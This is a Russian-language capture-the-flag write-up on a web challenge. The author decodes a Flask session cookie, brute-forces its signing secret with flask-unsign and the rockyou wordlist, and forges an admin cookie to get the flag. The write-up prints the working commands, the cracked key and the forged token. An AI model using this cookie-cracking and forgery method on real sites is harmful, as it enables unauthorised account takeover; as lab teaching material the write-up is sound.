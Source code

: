 <h1 align = "center">Видные люди в гостях не засиживаются (ip:**62.173.140.174:16042**)</h1>

-[Этап |1| Разведка]
-[Этап |2| Поиск и атака]
-[Этап |3| ZXC фидбэк]

Нас встречает 
![[Pasted image 20240224170953.png]]

Пишем самую очевидную команду для эмуляции терминалов на CTF - 
![[Pasted image 20240224171227.png]]
пробуем getFlag
![[Pasted image 20240224171313.png]]
Очевидно не работает, давайте заглянем под капот к этому таску:

![[Pasted image 20240224171629.png]]

Если загуглить или спросить у ChatGpt что значит xmkHttp.withCredentials()
то будет ответ:
![[Pasted image 20240224171732.png]]

Значит надо обратить внимание на аутентификацию пользователя на сайте.
![[Pasted image 20240224171941.png]]
`
`.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A`

Поле session представляет собой Flask Session Cookie , это подтверждает werkzeug в бурпе или в расширении Wappalyzer, а также характерная точка в начале.

После поиска в интернете находим:
https://www.kirsle.net/wizards/flask-session.cgi
 куда пихаем наш токен.
 ![[Pasted image 20240224172334.png]]

````json
{
    "_fresh": true,
    "_id": "b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f",
    "_user_id": "guest"
}
````


значит надо изменить `_user_id` на admin, но как это сделать?


>Как уже упоминал Элиас, файл cookie можно декодировать без секретного ключа, но без него нельзя манипулировать им по очевидным причинам безопасности. Если бы подделка файлов cookie была такой простой, никто бы не использовал сеансы Flask. Поэтому ваша задача — найти секретный ключ, а поскольку хеш-функция SHA-1 необратима, вам следует обратить внимание на человеческий фактор. 
>При этом вам придется «угадывать» секретный ключ нерадивого программиста конкурса, используя грубую силу, и, к счастью, Flask-Unsign может вам в этом помочь. Вы можете установить его через pip, используя следующую команду: 
>`pip3 install flask-unsign`
`
> Но перед его использованием вам понадобится список слов, например rockyou, который вы можете скачать из репозитория Kali Linux.
\-https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering

Сначала я попробовал слова:
- underground
- codeby
- guest
- admin
- CODEBY
как самые очевидные. Но потом все-таки решил rockyou.
````python
flask-unsign --unsign --cookie '.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A' --no-literal-eval -w /usr/share/wordlists/rockyou.txt
````

И через пару секунд:
````python
flask-unsign --unsign --cookie '.eJwljjsOAjEMBe-SmsL5Oc5eZmU7L0C7nwpxdyLRjmak-YR9HjhfYbuOG4-wv0fYgpWSoml3Ti5oNJt2WE3ulnJRJjMYiEx6Y47ZnQGo6KoyKcdJRbRRzTJbSrw0H-gSI42SUUcZFeJdx2Lg3kckaiYs0VOmGdbIfeL43zxvnFf4_gCupzEt.ZdnnSA.HZXegpDnNvZmxaKdlFxDs2kNZ-A' --no-literal-eval -w /usr/share/wordlists/rockyou.txt

[*] Session decodes to: {'_fresh': True, '_id': 'b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f', '_user_id': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1408 attempts
b'ramirez' 
````

Отлично, мы нашли `secret_key`, осталось совсем немного.

````python
python3 flask_session_cookie_manager3.py encode -s 'ramirez' -t '{"_fresh":True,"_id":"b4421ba9c62c8e70f7a9eb52ccb234a60bbebe00b8976613cc6eeea8a21b30a61f048a70538f7226897cde98110d43e5d4d5e8c9ad981e699d1007b8681c230f","_user_id":"admin"}'


.eJwljjkOwjAQAP_immLXx3qdz6C9LFJAkZAK8Xcs0Y5mpPmk-zzifKTtfVxxS_fd05a01owqwygbR4fZZYS2bKa5VCFQDQ0A5dGJsJhRRAjLqgoI4YTK0qEVnj1nWpp5DEYEryWaV2_BNsQXCxrDEaArE6PlAjOtkeuM438j_txf6fsDrgUxDg.Zdn3sA.B2ohvSthVgrLENSjGclY1HngkQQ

````
Пробуем подставить это значение в поле `session`
![[Pasted image 20240224174615.png]]
Отлично!
**CODEBY{fl4sk_w3b_4pps_c4n_b3_vuln3r4bl3}**
